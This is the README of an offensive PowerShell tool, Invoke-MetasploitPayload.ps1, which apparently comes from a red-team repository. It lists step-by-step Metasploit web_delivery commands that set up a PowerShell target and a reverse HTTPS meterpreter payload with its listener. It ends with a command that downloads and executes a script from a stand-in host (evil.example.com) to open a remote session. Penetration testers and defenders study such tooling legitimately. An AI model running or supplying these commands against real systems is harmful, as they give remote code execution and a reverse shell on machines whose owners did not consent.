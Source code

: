 <h2 align="center">Invoke-MetasploitPayload.ps1</h2>
<hr>
Invoke-MetasploitPayload is a Powershell script used to kick off a Metasploit payload. It relies on the exploit/multi/scripts/web_delivery Metasploit module.

#### The exploit/multi/scripts/web_delivery module
The web_delivery module generates a script for a given payload and then fires up a webserver to host said script. If the payload is a reverse shell, it will also handle starting up the listener for that payload. 

#### Example Usage
On your Metasploit instance, run the following commands

```
use exploit/multi/script/web_delivery
```
The SRVHOST and SRVPORT variables are used for running the webserver to host the script
```
set SRVHOST 0.0.0.0
set SRVPORT 8443
set SSL true
```
The `target` variable determines what type of script we're using. `2` is for PowerShell
```
set target 2
```
Pick your payload. In this case, we'll use a reverse https meterpreter payload
```
set payload windows/meterpreter/reverse_https
set LHOST 0.0.0.0
set LPORT 443
```
Run the exploit
```
run -j
```

Once run, the web_delivery module will spin up the webserver to host the script and reverse listener for our meterpreter session.
#### Getting the Payload URL
After running the web_delivery module, it will print out the URL for the webserver hosting the script file. This will typically look like `http://[IP_OF_METASPLOIT_INSTANCE]/[RANDOM CHARACTERS]`. This URL is what you'll pass to `Invoke-MetasploitPayload`. _You can ignore the line about "Run the following command on the target machine"_

![Web Delivery Example](/web_delivery_screenshot.png)

#### Using Invoke-Metasploit.ps1

Usage is simple, just pass the URL from the web_delivery module. Invoke-MetasploitPayload will handle spinning up a new process and then downloading and executing the script.

```
PS> Invoke-MetasploitPayload -url "http://evil.example.com/SDFJLWKS"
```
